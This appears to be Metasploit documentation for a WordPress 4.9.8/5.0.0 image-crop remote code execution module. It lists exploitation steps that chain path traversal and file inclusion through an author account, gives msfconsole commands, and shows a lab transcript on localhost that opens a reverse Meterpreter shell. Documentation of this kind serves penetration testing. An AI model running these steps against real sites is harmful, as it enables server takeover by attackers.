 On WordPress versions 5.0.0 and <= 4.9.8 it is possible to gain arbitrary code execution via a core vulnerability combining a Path Traversal and a Local File Inclusion.
An attacker who gains access to an account with at least author privileges on the target can execute PHP code on the remote server.

## Exploitation Steps

1. Upload an image containing PHP code
2. Edit the `_wp_attached_file` entry from `meta_input` $_POST array to specify an arbitrary path
3. Perform the Path Traversal by using the `crop-image` Wordpress function
4. Perform the Local File Inclusion by creating a new WordPress post and set `_wp_page_template` value to the cropped image. The post will `include()` our image containing PHP code.

When visiting the post created by the attacker it is possible to obtain code execudion.

More details can be found on [RIPS Technology Blog](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/).

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/wp_crop_rce`
3. Set the `RHOST`
4. Set `USERNAME` and `PASSWORD`
4. Set `LHOST` and `LPORT`
5. Run the exploit: `run`
6. Confirm you have now a meterpreter session


## Scenarios

### Ubuntu 18.04 running WordPress 4.9.8

```
msf5 > use exploit/multi/http/wp_crop_rce
msf5 exploit(multi/http/wp_crop_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/wp_crop_rce) > set username author
username => author
msf5 exploit(multi/http/wp_crop_rce) > set password author
password => author
msf5 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Authenticating with WordPress using author:author...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Checking crop library
[*] Uploading payload
[+] Image uploaded
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38247 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:36568) at 2019-03-19 11:33:27 -0400

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64
Meterpreter : php/linux
```
